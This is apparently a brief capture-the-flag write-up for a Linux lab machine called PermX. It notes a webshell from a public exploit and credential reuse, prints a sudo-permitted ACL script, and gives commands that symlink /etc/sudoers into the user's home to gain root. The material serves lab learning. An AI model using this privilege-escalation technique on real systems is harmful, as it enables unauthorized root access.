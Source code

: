# PermX \[Linux Easy]

Found the vhost this time, got the public exploit and landed on a webshell. Transfer LinPeas and LinEnum to see cheeky results, learn how to read this stuff

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

User passwd for mtz, ssh w these credentials for user.txt

sudo -l shows us a acl.sh script which can be run

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The last line mentions the command its trying to execute which is to change perms on any file in /home/mtz as long as root is not involved

```
ln -s /etc/sudoers helpfile
sudo /opt/acl.sh mtz rw /home/mtz/helpfile
```

We made a **symbolic link to sudoers list** and added our username to it and gave rw perms as shown in last ss for root.txt
